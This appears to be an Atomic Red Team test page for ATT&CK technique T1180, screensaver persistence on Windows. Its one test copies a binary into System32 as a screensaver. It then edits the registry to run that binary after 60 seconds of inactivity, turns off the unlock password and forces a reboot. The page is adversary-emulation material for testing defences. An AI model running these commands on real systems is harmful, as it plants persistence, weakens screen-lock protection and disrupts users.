 # T1180 - Screensaver
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1180)
<blockquote>Screensavers are programs that execute after a configurable time of user inactivity and consist of Portable Executable (PE) files with a .scr file extension.(Citation: Wikipedia Screensaver) The Windows screensaver application scrnsave.scr is located in <code>C:\Windows\System32\</code>, and <code>C:\Windows\sysWOW64\</code> on 64-bit Windows systems, along with screensavers included with base Windows installations. 

The following screensaver settings are stored in the Registry (<code>HKCU\Control Panel\Desktop\</code>) and could be manipulated to achieve persistence:

* <code>SCRNSAVE.exe</code> - set to malicious PE path
* <code>ScreenSaveActive</code> - set to '1' to enable the screensaver
* <code>ScreenSaverIsSecure</code> - set to '0' to not require a password to unlock
* <code>ScreenSaveTimeout</code> - sets user inactivity timeout before screensaver is executed

Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain timeframe of user inactivity. (Citation: ESET Gazer Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Set Arbitrary Binary as Screensaver](#atomic-test-1---set-arbitrary-binary-as-screensaver)


<br/>

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | path | C:\Windows\System32\cmd.exe|


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```



<br/>
